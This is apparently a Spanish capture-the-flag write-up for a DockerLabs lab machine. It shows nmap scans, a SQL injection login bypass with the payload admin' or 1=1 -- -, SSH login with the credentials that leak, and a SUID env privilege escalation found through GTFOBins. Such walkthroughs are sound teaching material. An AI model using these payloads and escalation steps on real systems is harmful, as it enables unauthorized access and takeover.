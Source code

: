 [[Writeups]]
#Writeups #VeryEasy #DockerLabs

![dockerLabs.png](assets/dockerLabs.png)

Comenzamos con un escaneo general de nmap:
```bash
❯ sudo nmap -sS -Pn -p- --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-23 11:07 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.22 seconds
```

Vemos que solo hay un servivio http con un ssh, vamos a escanearlos mas profundamente:

```bash
❯ sudo nmap -Pn -p80,22 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-23 11:09 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000028s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.43 seconds
```

Con esto, vamos al navegador y vemos que en el http esta alojada esta web:

![webInjection.png](assets/webInjection.png)


Despues de enumerar y buscar por la web no encontramos nada por lo que vamos a probar en el login una inyección sql:

Empezaremos con **admin' or 1=1 -- -** a ver que tipo de repuesta nos da la web.
Y la contraseña será un texto aleatorio.

![sqllogininject.png](assets/sqllogininject.png)

Y nos sale un caso positivo a la primera, Obtenemos acceso a la cuenta de un usuario:
![logedInj.png](assets/logedInj.png)

Vemos este mensaje:

**Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78**

por lo que ya tenemos un usuario y contraseña.

Vamos a probar iniciar sesión en el ssh con estas credenciales:

```bash
❯ ssh dylan@172.17.0.2
dylan@172.17.0.2 s password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.5.0-13parrot1-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

dylan@c5945d70c932:~$ 

```

Una vez dentro vemos que somos el ususario dylan, vamos a intentar conseguir root, como la maquina es very easy con buscar permisos sudo o suid seguramente ya nos valdrá:

Y efectivamente, vemos que tenemos suid de env

```bash
dylan@c5945d70c932:~$ whoami
dylan
dylan@c5945d70c932:~$ sudo -l
-bash: sudo: command not found
dylan@c5945d70c932:~$ find / -perm 4000 2>/dev/null
dylan@c5945d70c932:~$ find / -perm -4000 2>/dev/null
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/env
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
dylan@c5945d70c932:~$
```

Vamos a la web de gtfobins y buscamos el caso de env:
[GTFOBINS Web: /env](https://gtfobins.github.io/gtfobins/env/#suid)

y aplicando el comando que nos indica obtenemos root:

![rootInjection.png](assets/rootInjection.png)
